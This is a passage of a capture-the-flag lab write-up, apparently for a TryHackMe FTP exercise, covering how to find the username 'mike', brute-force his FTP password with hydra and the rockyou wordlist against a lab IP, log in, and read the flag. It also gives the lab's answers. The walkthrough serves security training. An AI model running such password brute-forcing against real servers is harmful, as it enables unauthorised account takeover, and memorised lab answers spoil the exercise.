 **5. What do we think a possible username could be?**

The content of the file can be read using the `more` command.

```bash
more PUBLIC_NOTICE.txt
```

![[ns-ftp-4.png|260]]

> Mike

**6. Great! Now we've got details about the FTP server and, crucially, a possible username. Let's see what we can do with that...**

> No answer needed

### Task 10: Exploiting FTP

**1. What is the password for the user "mike"?**

![[ns-ftp-5.png|640]]

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -f -v 10.10.153.167 ftp
```

`-t`: No. of threads (Parallelism)  
`-l`: Username  
`-P`: Password Wordlist  
`-f`: Stop when 1st match is found  
`-v`: Verbose Mode

>password

**2. Bingo! Now, let's connect to the FTP server as this user using "ftp \[IP\]" and entering the credentials when prompted**

```bash
ftp 10.10.153.167
```

![[ns-ftp-6.png|420]]

> No answer needed

**3. What is ftp.txt?**

> THM{y0u_g0t_th3_ftp_fl4g}
